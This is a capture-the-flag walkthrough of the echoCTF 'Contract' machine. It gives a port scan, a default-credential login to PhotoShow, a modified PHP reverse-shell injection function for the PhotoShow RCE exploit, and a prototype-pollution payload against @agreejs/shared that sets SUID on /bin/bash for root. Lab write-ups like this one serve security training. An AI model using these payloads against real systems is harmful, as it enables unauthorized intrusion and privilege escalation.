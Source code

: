 ```yaml
---
description: >-
  Contract echoCTF Machine
title: Contract (Intermediate)                # Add title here
date: 2025-02-20 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: [Default Credentials, RCE, PhotoShow, agreejs/shared]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Contract.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.221
```

### Content

-  Default Credentials
-  PhotoShow 3.0 - Remote Code Execution (RCE) 
-  @agreejs/shared rototype Pollution

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.221
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.221 ()   Status: Up
Host: 10.0.160.221 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.221
Nmap scan report for 10.0.160.221
Host is up, received user-set (0.15s latency).
Scanned at 2025-02-20 19:00:34 EST for 41s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 ca:a0:22:83:88:f3:e3:ed:6f:3d:59:ba:bd:3c:f1:6b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHP4VhDww7U3k3GJxGqRFXN6xzDoOuF9TFiuKrlaP+twLHPWCLe1V7JIBgcL1JF3uf0Li/36H99aZbHUKuv7Z98=
|   256 3d:80:07:18:b3:84:60:08:85:c8:68:c9:5a:f1:b0:09 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHOMTnmLCLW8d7QVNNH3UKLr8W03N/+RlL+LN6Nkalcx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
|_http-title: PhotoShow
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0
|_http-favicon: Unknown favicon MD5: 7D314C14444028B644D54DC1C8F65E43
```

### Exploitation

The target has only an HTTP service running besides the SSH, on it there is a PhotoShow CMS, I've tried with some default credentials and the pair that worked was `admin:password`:
![](/assets/img/Pasted-image-20250220180624.png)

This CMS is vulnerable to [PhotoShow - Remote Code Execution](https://www.exploit-db.com/exploits/51236), I downloaded the script and after some attempts I got a successful shell by modifying the payload on the script from `bash -c 'bash -i..` for this one:
```bash
 def createInjection(attackerIp, attackerNcPort):
    textToEncode = "php -r '$sock=fsockopen(\"" + attackerIp + "\"," + attackerNcPort + ");exec(\"sh <&3 >&3 2>&3\");'"
    b64Encoded = base64.b64encode(textToEncode.encode("ascii"))
    strb64 = str(b64Encoded)[2:-1]
    injection = {"exiftran_path": "echo " + strb64 + " | base64 -d > /tmp/1.sh ;/bin/bash /tmp/1.sh"}
    return urllib.parse.urlencode(injection)
```

For some reason only php revshell payload works, after that we got a shell.

### Privilege Escalation

I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@contract:~/html$ sudo -l
Matching Defaults entries for www-data on contract:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on contract:
    (ALL : ALL) NOPASSWD: /usr/bin/agreement
```
This is the content of it:
```bash
wwww-data@contract:~/html$ cat /usr/bin/agreement
#! /usr/bin/env node
var args = process.argv.slice(2);
(async () => {
  const lib = await import('@agreejs/shared');
  const { exec } = await import('child_process');
  var components=JSON.parse(args[0])
  try {
    lib.mergeInternalComponents (components)
  } catch (e) { }
  var user = {}
  if(user.authenticated===true)
  {
    exec(user.cmd);
  }
})();
```
As usual, the vulnerability relays on the imported library, in this case `@agreejs/shared`, there is a vulnerability reported as [Remote code execution in @agreejs/shared](https://security.snyk.io/vuln/SNYK-JS-AGREEJSSHARED-7417398), after reading the article and with the aid of DeepSeek I came with the following payload:
```bash
www-data@contract:~/html$ sudo /usr/bin/agreement '{"__proto__":{"authenticated":true,"cmd":"chmod +s /bin/bash"}}'
www-data@contract:~/html$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```
And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`/proc/1/environ`
`/root`

### Credentials

- Credentials identified for PhotoShow are `admin:password`

### Notes

- Sometimes the public exploits only work on certain environments, in this case we needed to modify ours so we can successfully exploit the vulnerability in the CMS, so it is a good idea to always have more than one revshell payload to avoid this scenarios.

### References

- [PhotoShow - Remote Code Execution](https://www.exploit-db.com/exploits/51236)
- [Remote code execution in @agreejs/shared](https://security.snyk.io/vuln/SNYK-JS-AGREEJSSHARED-7417398)


